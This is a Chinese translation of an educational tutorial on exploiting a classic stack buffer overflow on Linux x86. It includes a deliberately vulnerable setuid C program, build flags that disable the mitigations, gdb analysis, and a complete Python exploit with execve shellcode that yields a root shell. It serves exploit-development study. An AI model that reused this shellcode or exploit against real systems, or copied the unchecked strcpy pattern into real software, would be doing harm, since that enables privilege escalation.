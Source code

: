 CSysSec注： 本系列文章译自安全自由工作者Sploitfun的漏洞利用系列博客，从经典栈缓冲区漏洞利用堆漏洞利用，循序渐进，是初学者不可多得的好材料，本系列所有文章涉及的源码可以在这里找到。CSysSec计划在原基础上不断添加相关漏洞利用技术以及相应的Mitigation方法，欢迎推荐或自荐文章。  
转载本文请务必注明，文章出处：《[Linux(X86)漏洞利用系列-经典栈缓冲区溢出](http://www.csyssec.org/20161230/stackbufferflow/)》  

VM Setup: Ubuntu 12.04 (x86)  

虽然你能在网上找到很多缓冲区溢出漏洞利用系列教程，但本文肯定是其中最最简单的一篇。尽管内容与其他文章多有重复，并且同类文章已经有了很多，我仍然愿意出一篇独家教程，因为这篇博文将是我后续发布的众多文章的阅读前提。  

## 0X01 什么是缓冲区溢出（Buffer Overflow）  

将源缓冲区复制到目标缓冲区时，以下情况可能导致缓冲区溢出的情况发生：  

源字符串长度大于目标字符串长度  
没有执行缓冲区大小检查  
缓冲区溢出分两类：  

栈缓冲区溢出——此时目标缓冲区存放于栈中  
堆缓冲区溢出——此时目标缓冲区存放于堆中  
这篇文章里，我只讨论栈缓冲区溢出问题。堆缓冲区溢出请参见Linux (x86) 漏洞利用教程系列中的第三部分。  

缓冲区溢出漏洞会导致任意代码执行的发生。  

## 0X02 什么是任意代码执行（arbitrary code execution）

任意代码执行允许攻击者执行代码来获得系统控制权。获得系统控制权的方法有很多，比如触发一个root shell、添加一个新用户、建立一个网络端口等等。  

听起来挺有趣的吧？话不多说，来看一则典型漏洞代码吧！  

漏洞代码：  

``` c
//vuln.c
#include <stdio.h>
#include <string.h>
int main(int argc, char* argv[]) {
        /* [1] */ char buf[256];
        /* [2] */ strcpy(buf,argv[1]);
        /* [3] */ printf("Input:%s\n",buf);
        return 0;
}
```
编译命令：

``` bash
#echo 0 > /proc/sys/kernel/randomize_va_space
$gcc -g -fno-stack-protector -z execstack -o vuln vuln.c
$sudo chown root vuln
$sudo chgrp root vuln
$sudo chmod +s vuln
``` 
上述漏洞程序的第[2]行显示，该程序中存在缓冲区溢出漏洞。由于缓冲区内容是用户提供的输入值，因此这个缓冲区溢出漏洞很可能导致系统执行任意代码。  

注：本系列所有文章中第[N]行代码指的的代码中显示`/*[N]*/`的位置。  

## 0X03 如何实现任意代码执行是如何实现的

任意代码执行是通过“返回地址覆盖(**Return Address Overwrite**)”技术实现的。这种方法帮助攻击者覆盖掉存储在栈内的返回地址，通过这种覆盖，任意代码执行得以实现。  

为了让大家更好地理解漏洞利用代码，我们在对它做进一步的分析之前，先来反汇编并画出漏洞代码的堆栈布局图吧！  

反汇编：

```
(gdb) disassemble main
Dump of assembler code for function main:
   //Function Prologue
   0x08048414 <+0>:	push   %ebp                      //backup caller's ebp
   0x08048415 <+1>:	mov    %esp,%ebp                 //set callee's ebp to esp
   0x08048417 <+3>:	and    $0xfffffff0,%esp          //stack alignment
   0x0804841a <+6>:	sub    $0x110,%esp               //stack space for local variables
   0x08048420 <+12>:	mov    0xc(%ebp),%eax            //eax = argv
   0x08048423 <+15>:	add    $0x4,%eax                 //eax = &argv[1]
   0x08048426 <+18>:	mov    (%eax),%eax               //eax = argv[1]
   0x08048428 <+20>:	mov    %eax,0x4(%esp)            //strcpy arg2 
   0x0804842c <+24>:	lea    0x10(%esp),%eax           //eax = 'buf' 
   0x08048430 <+28>:	mov    %eax,(%esp)               //strcpy arg1
   0x08048433 <+31>:	call   0x8048330 <strcpy@plt>    //call strcpy
   0x08048438 <+36>:	mov    $0x8048530,%eax           //eax = format str "Input:%s\n"
   0x0804843d <+41>:	lea    0x10(%esp),%edx           //edx = buf
   0x08048441 <+45>:	mov    %edx,0x4(%esp)            //printf arg2
   0x08048445 <+49>:	mov    %eax,(%esp)               //printf arg1
   0x08048448 <+52>:	call   0x8048320 <printf@plt>    //call printf
   0x0804844d <+57>:	mov    $0x0,%eax                 //return value 0
   //Function Epilogue
   0x08048452 <+62>:	leave                            //mov ebp, esp; pop ebp; 
   0x08048453 <+63>:	ret                              //return
End of assembler dump.
(gdb)
```
堆栈布局：  
![](../pictures/level1stacklayout.jpeg)  


根据已有知识，用户输入值大小超过256时会溢出目标缓冲区，并且覆盖存储于栈中的返回地址。让我们来通过发送一串“A”的方法进行测试。  

测试第一步： 是否会覆盖返回地址？  

``` 
$ gdb -q vuln
Reading symbols from /home/sploitfun/lsploits/new/csof/vuln...done.
(gdb) r `python -c 'print "A"*300'`
Starting program: /home/sploitfun/lsploits/new/csof/vuln `python -c 'print "A"*300'`
Input:AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Program received signal SIGSEGV, Segmentation fault.
0x41414141 in ?? ()
(gdb) p/x $eip
$1 = 0x41414141
(gdb)
```
上述输出结果显示，EIP被“AAAAA”覆盖了，这就意味着返回地址被覆盖是有可能的!!  

测试第二步：来自目标缓冲区的偏移量是什么？  

现在我们来找找目标缓冲区‘buf’中返回地址的偏移处于什么位置。  
之前我们已经反汇编并画了main()的堆栈布局，那么现在就试着找出代码的偏移位置信息吧！由堆栈布局可以看出，返回地址偏移位于目标缓冲区buf的(0x10c)处。(0x10c)计算方式如下  

0x10c = 0x100 + 0x8 + 0x4  
其中：  

0X100 是‘buf’大小  
0x8 是对齐空间  
0x4 是调用者的EBP  
这样一来，用户输入“A” 268 + “B” 4中，一串“A”覆盖‘buf’、对齐空间和调用者的EBP，“BBBB”覆盖返回地址。  

```
$ gdb -q vuln
Reading symbols from /home/sploitfun/lsploits/new/csof/vuln...done.
(gdb) r `python -c 'print "A"*268 + "B"*4'`
Starting program: /home/sploitfun/lsploits/new/csof/vuln `python -c 'print "A"*268 + "B"*4'`
Input:AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBB
Program received signal SIGSEGV, Segmentation fault.
0x42424242 in ?? ()
(gdb) p/x $eip
$1 = 0x42424242
(gdb)
```
上述输出结果表明攻击者已经获得返回地址的控制权。位于栈 (0xbffff1fc)的返回地址已经被“BBBB”覆盖了。有了这些信息，我们就可以写出能实现任意代码执行的漏洞利用代码了。  

漏洞利用代码：  

``` python
#exp.py 
#!/usr/bin/env python
import struct
from subprocess import call
#Stack address where shellcode is copied.
ret_addr = 0xbffff1d0       
              
#Spawn a shell
#execve(/bin/sh)
scode = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"
#endianess convertion
def conv(num):
 return struct.pack("<I",num)
buf = "A" * 268
buf += conv(ret_addr)
buf += "\x90" * 100
buf += scode
print "Calling vulnerable program"
call(["./vuln", buf])
```
执行上述漏洞利用程序就可以获取root shell，如下所示：  

```  bash
$ python exp.py 
Calling vulnerable program
Input:AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA��������������������������������������������������������������������������������������������������������1�Ph//shh/bin��P��S���
# id
uid=1000(sploitfun) gid=1000(sploitfun) euid=0(root) egid=0(root) groups=0(root),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),109(lpadmin),124(sambashare),1000(sploitfun)
# exit
$
```
注意：为了得到这个root shell，我们舍弃了很多exploit的mitigation方法。其实在整个系列的第一部分，我都特意没用这些exploit的mitigation方法，因为level 1的目标，仅止于普及漏洞知识。如果你真的想学到有意思的知识，就去看Linux (x86)漏洞利用教程系列的第二部分吧！到时候我会教你们如何绕过exploit的mitigation方法。  